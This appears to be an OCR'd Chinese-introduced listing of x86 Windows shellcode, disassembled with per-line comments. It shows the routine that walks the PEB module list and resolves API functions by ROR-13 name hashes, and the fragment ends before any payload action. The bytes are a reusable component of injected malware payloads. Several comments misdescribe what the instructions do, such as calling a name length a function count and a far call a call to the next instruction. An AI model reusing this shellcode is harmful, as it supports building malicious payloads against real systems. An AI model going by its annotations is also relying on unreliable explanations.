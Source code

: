 以下是逐条解析后的汇编语言代码：

```
; Shellcode start
fc                      cld                         ; Clear direction flag
e8 8f 00 00 00          call 0x94                   ; Call to next instruction
60                      pusha                       ; Push all general-purpose registers onto stack
31 d2                   xor edx, edx                ; Zero out EDX
89 e5                   mov ebp, esp                ; Move ESP to EBP
64 8b 52 30             mov edx, fs:[edx+0x30]      ; Move PEB to EDX
8b 52 0c                mov edx, [edx+0xc]          ; Move PEB_LDR_DATA to EDX
8b 52 14                mov edx, [edx+0x14]         ; Move InMemoryOrderModuleList to EDX
31 ff                   xor edi, edi                ; Zero out EDI
0f b7 4a 26             movzx ecx, word [edx+0x26]  ; Move export table number of functions to ECX
8b 72 28                mov esi, [edx+0x28]         ; Move module base address to ESI
31 c0                   xor eax, eax                ; Zero out EAX
ac                      lodsb                       ; Load byte at DS:(E)SI into AL
3c 61                   cmp al, 0x61                ; Compare AL with 0x61
7c 02                   jl 0x36                     ; Jump if less
2c 20                   sub al, 0x20                ; Subtract 0x20 from AL
c1 cf 0d                ror edi, 0xd                ; Rotate right EDI by 13 bits
01 c7                   add edi, eax                ; Add EAX to EDI
49                      dec ecx                     ; Decrement ECX
75 ef                   jnz 0x21                    ; Jump if not zero
52                      push edx                    ; Push EDX
8b 52 10                mov edx, [edx+0x10]         ; Move module base address to EDX
8b 42 3c                mov eax, [edx+0x3c]         ; Move PE header to EAX
57                      push edi                    ; Push EDI
01 d0                   add eax, edx                ; Add EDX to EAX
8b 40 78                mov eax, [eax+0x78]         ; Move export directory to EAX
85 c0                   test eax, eax               ; Test EAX
74 4c                   je 0x94                     ; Jump if zero
01 d0                   add eax, edx                ; Add EDX to EAX
50                      push eax                    ; Push EAX
8b 58 20                mov ebx, [eax+0x20]         ; Move names to EBX
01 d3                   add ebx, edx                ; Add EDX to EBX
8b 48 18                mov ecx, [eax+0x18]         ; Move number of names to ECX
85 c9                   test ecx, ecx               ; Test ECX
74 3c                   je 0x96                     ; Jump if zero
31 ff                   xor edi, edi                ; Zero out EDI
49                      dec ecx                     ; Decrement ECX
8b 34 8b                mov esi, [ebx+ecx*4]        ; Move name pointer to ESI
01 d6                   add esi, edx                ; Add EDX to ESI
31 c0                   xor eax, eax                ; Zero out EAX
c1 cf 0d                ror edi, 0xd                ; Rotate right EDI by 13 bits
ac                      lodsb                       ; Load byte at DS:(E)SI into AL
01 c7                   add edi, eax                ; Add EAX to EDI
38 e0                   cmp al, ah                  ; Compare AL with AH
75 f4                   jnz 0x60                    ; Jump if not zero
03 7d f8                add edi, [ebp-0x8]          ; Add [EBP-8] to EDI
3b 7d 24                cmp edi, [ebp+0x24]         ; Compare EDI with [EBP+24]
75 e0                   jnz 0x44                    ; Jump if not zero
58                      pop eax                     ; Pop EAX
8b 58 24                mov ebx, [eax+0x24]         ; Move function pointer to EBX
01 d3                   add ebx, edx                ; Add EDX to EBX
66 8b 0c 4b             mov cx, [ebx+ecx*2]         ; Move ordinal to CX
8b 58 1c                mov ebx, [eax+0x1c]         ; Move address table to EBX
01 d3                   add ebx, edx                ; Add EDX to EBX
8b 04 8b                mov eax, [ebx+ecx*4]        ; Move function address to EAX
01 d0                   add eax, edx                ; Add EDX to EAX
89 44 24 24             mov [esp+0x24], eax         ; Move EAX to [ESP+24]
5b                      pop ebx                     ; Pop EBX
5b                      pop ebx                     ; Pop EBX
61                      popa                        ; Pop all general-purpose registers from stack
```
